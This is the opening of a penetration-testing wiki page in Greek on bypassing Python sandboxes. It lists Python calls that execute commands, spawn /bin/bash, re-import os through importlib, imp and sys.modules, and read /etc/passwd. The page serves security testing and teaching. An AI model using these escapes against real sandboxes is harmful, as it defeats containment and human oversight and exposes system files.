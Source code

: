 # Bypass Python sandboxes

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Support HackTricks</summary></details>
{% endhint %}

Αυτές είναι μερικές τεχνικές για να παρακάμψετε τις προστασίες του python sandbox και να εκτελέσετε αυθαίρετες εντολές.

## Βιβλιοθήκες Εκτέλεσης Εντολών

Το πρώτο πράγμα που πρέπει να γνωρίζετε είναι αν μπορείτε να εκτελέσετε άμεσα κώδικα με κάποια ήδη εισαγμένη βιβλιοθήκη, ή αν μπορείτε να εισάγετε οποιαδήποτε από αυτές τις βιβλιοθήκες:
```python
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls")
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.os.system("ls")
pdb.os.system("ls")

#Import functions to execute commands
importlib.import_module("os").system("ls")
importlib.__import__("os").system("ls")
imp.load_source("os","/usr/lib/python3.8/os.py").system("ls")
imp.os.system("ls")
imp.sys.modules["os"].system("ls")
sys.modules["os"].system("ls")
__import__("os").system("ls")
import os
from os import *

#Other interesting functions
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')

#In Python2.7
execfile('/usr/lib/python2.7/os.py')
system('ls')
```
Θυμηθείτε ότι οι _**open**_ και _**read**_ συναρτήσεις μπορούν να είναι χρήσιμες για να **διαβάσετε αρχεία** μέσα στην python sandbox και να **γράψετε κάποιον κώδικα** που θα μπορούσατε να **εκτελέσετε** για να **παρακάμψετε** την sandbox.
